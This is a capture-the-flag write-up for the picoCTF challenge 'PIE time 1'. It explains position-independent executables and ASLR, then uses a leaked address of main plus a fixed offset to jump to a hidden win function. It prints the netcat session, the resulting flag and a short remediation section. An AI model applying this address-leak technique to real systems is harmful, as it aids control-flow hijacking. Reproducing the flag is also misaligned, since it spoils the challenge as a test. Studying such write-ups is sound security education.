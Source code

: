 # PicoCTF: PIE time 1

## Context

We are provided with a compiled binary and the source code (`vuln` and `vuln.c`), as well as a complimentary server and port to connect to via netcat. We only connect via netcat when we are ready to get the flag. 

When we do `./vuln` we are prompted to enter an address. If the address is not correct, we segfault:
```text
mms2379@spoc:~/ctf/pie_time$ ./vuln
Address of main: 0x58e94163433d
Enter the address to jump to, ex => 0x12345: 0x0
Your input: 0
Segfault Occurred, incorrect address.
```

## Background Information: PIE executables

Executables can come in different forms, notably PIE (position independent executable) and no-PIE. If we compile a PIE executable, it means that that whole chunk of code for the program can be placed anywhere in memory. This enables ASLR (address space layout randomization) which randomizes the memory address of key components of our program, like where its stack, heap, etc. begin. A no-PIE executable's code will be placed at a fixed address. That means that we cannot use ASLR.

Below, I've provided examples of objdumped PIE and no-PIE executables. Note how the no-PIE executable starts at address 0x401000, while the PIE executable starts at 0x1000 so it's able to placed at a random memory address later.

``` text
mms2379@spoc:~/temp/studying/linking2$ objdump -d main-no-pie

main-no-pie:     file format elf64-x86-64


Disassembly of section .init:

0000000000401000 <_init>:
  401000:       f3 0f 1e fa             endbr64 
  401004:       48 83 ec 08             sub    $0x8,%rsp
  401008:       48 8b 05 e9 2f 00 00    mov    0x2fe9(%rip),%rax        # 403ff8 <__gmon_start__@Base>
  40100f:       48 85 c0                test   %rax,%rax
  401012:       74 02                   je     401016 <_init+0x16>
  401014:       ff d0                   call   *%rax
  401016:       48 83 c4 08             add    $0x8,%rsp
  40101a:       c3                      ret
...

```

```text
mms2379@spoc:~/temp/studying/linking2$ objdump -d main-dyn

main-dyn:     file format elf64-x86-64


Disassembly of section .init:

0000000000001000 <_init>:
    1000:       f3 0f 1e fa             endbr64 
    1004:       48 83 ec 08             sub    $0x8,%rsp
    1008:       48 8b 05 d9 2f 00 00    mov    0x2fd9(%rip),%rax        # 3fe8 <__gmon_start__@Base>
    100f:       48 85 c0                test   %rax,%rax
    1012:       74 02                   je     1016 <_init+0x16>
    1014:       ff d0                   call   *%rax
    1016:       48 83 c4 08             add    $0x8,%rsp
    101a:       c3                      ret
  ...

```

## Vulnerability

Recall that we are prompted to enter an address:

```text
mms2379@spoc:~/ctf/pie_time$ ./vuln
Address of main: 0x58e94163433d
Enter the address to jump to, ex => 0x12345: 0x0
Your input: 0
Segfault Occurred, incorrect address.
```

Note that we are given the address of the `main` function. We may take a closer look at the source code. We see that we have a `main()` function and a `win` function that is not called anywhere in the program. We also see that `win` will give us our flag. (Full source code can be found in `pie_time1/vuln.c`)

```C
int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered
  ...
```

Therefore, we conclude that we must somehow call the `win` function in order to get our flag. If this were a no-PIE exectuable, then we could just enter the address of the `win` function. Unfortunatley, `vuln` is a PIE executable:

```
mms2379@spoc:~/ctf/pie_time$ file vuln
vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0072413e1b5a0613219f45518ded05fc685b680a, for GNU/Linux 3.2.0, not stripped
```

This means that we will have to calculate the address of `win` based on some other address. Recall that we are given the address of `main`. Therefore, we conclude that we must use the address at `main` to call `win`.

## Exploitation 

Taking a look at the disassembly of `vuln`, we can manually calculate the distance in memory between `win` and `main`. (See `pie_time1/vuln_dump.txt` for the full disassembly)

```text
00000000000012a7 <win>:
    12a7:	f3 0f 1e fa          	endbr64 
    12ab:	55                   	push   %rbp
    12ac:	48 89 e5             	mov    %rsp,%rbp
	...

000000000000133d <main>:
    133d:	f3 0f 1e fa          	endbr64 
    1341:	55                   	push   %rbp
    1342:	48 89 e5             	mov    %rsp,%rbp
	...
```

The difference in hex between 0x12a7 and 0x133d is 0x96. So now, every time we execute `vuln` and get our address for `main`, we may simply calculate `main` - 0x96 = address to jump to:

```text
mms2379@spoc:~/ctf/pie_time$ nc rescued-float.picoctf.net 54738
Address of main: 0x5bee3664233d
Enter the address to jump to, ex => 0x12345: 0x5bee366422a7
Your input: 5bee366422a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_a267144a}
```

## Remediation

The remediation for this is pretty simple: don't give out addresses in PIE executables! The whole point of PIE is to enable ASLR and make it **harder** to infiltrate, but by providing a reference address and source code, it can be easy to calculate the addresses of other functions and get to whatever function you'd like.

# Sources/Credits

Written by Madalina Stoicov

- https://cs4157.github.io/www/2025-1/lect/17-linking-2.html 
